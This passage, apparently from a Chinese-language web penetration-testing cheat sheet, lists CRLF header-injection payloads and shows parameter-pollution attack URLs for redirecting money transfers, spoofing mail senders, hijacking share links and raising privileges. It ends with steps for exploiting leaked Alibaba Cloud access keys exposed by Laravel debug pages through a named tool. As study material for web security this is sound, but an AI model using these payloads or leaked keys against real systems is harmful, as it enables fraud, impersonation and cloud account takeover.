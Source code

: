 ```
%23%0dheader:header
%3f%0dheader:header
/%250aheader:header
/%%0a0aheader:header
/%3f%0dheader:header
/%23%0dheader:header
/%25%30aheader:header
/%25%30%61header:header
/%u000aheader:header
```
### HPP_参数污染漏洞
```
重复提交参数产生奇效

1、敏感操作
https://www.example.com/transferMoney.php?amount=1000&fromAccount=12345
进行转账操作，原本链接中是没有toAccount参数的，这个参数是后端固定的，但如果我们重复提交这个参数：
https://www.example.com/transferMoney.php?amount=1000&fromAccount=12345&toAccount=99999
会覆盖后端请求，从而服务器取到的是toAccount=99999这个值。

2、IDOR（不安全的对象引用）
发邮件功能，我8888用户发邮件给对方12345用户
https://www.example.com/transferMail.php?myId=8888&targetId=12345
当不适应HPP时仅仅修改如下，即想让对方12345发邮件给我8888，进行鉴权显然会请求错误
https://www.example.com/transferMail.php?myId=12345&targetId=8888
使用HPP时，如下添加了两个myId参数，鉴权取到了myId=8888 通过，发邮件时取到了myId=12345这个值，从而让对方12345用户发邮件给了我8888用户
https://www.example.com/transferMail.php?myId=12345&myId=8888&targetId=8888

3、社交分享链接
把内容分享到其他社交媒体，如下：
https://www.example.com/id=1，分享到FB上链接为：https://www.facebook.com/sharer.php?u=https://www.example.com/id=1
使用HPP时，如下添加了两个u参数，则最终的跳转会成为https://hackder.com/：
https://www.facebook.com/sharer.php?u=https://www.example.com/id=1&u=https://hackder.com/

4、权限操作
用户只能进行查看操作，如下：
https://www.example.com/info.php?action=view&par=12345
使用HPP时后面再添加一个action参数，如：?&action=edit，最后取到了edit，导致可以提升权限进行编辑了
https://www.example.com/info.php?action=view&par=12345?&action=edit

```
### 阿里云accessKeyId利用
漏洞利用工具：
- [iiiusky/alicloud-tools](https://github.com/iiiusky/alicloud-tools/releases/tag/v1.0.1)
```
Laravel站点：可尝试post提交访问，如果存在debug模式可把阿里云accessKeyId和accessSecret爆出来
其他信息泄露获取：内网配置文件等
之后使用工具：alicloud-tools进行利用api执行命令 或 OSS浏览文件 或 行云管家管理云主机

```
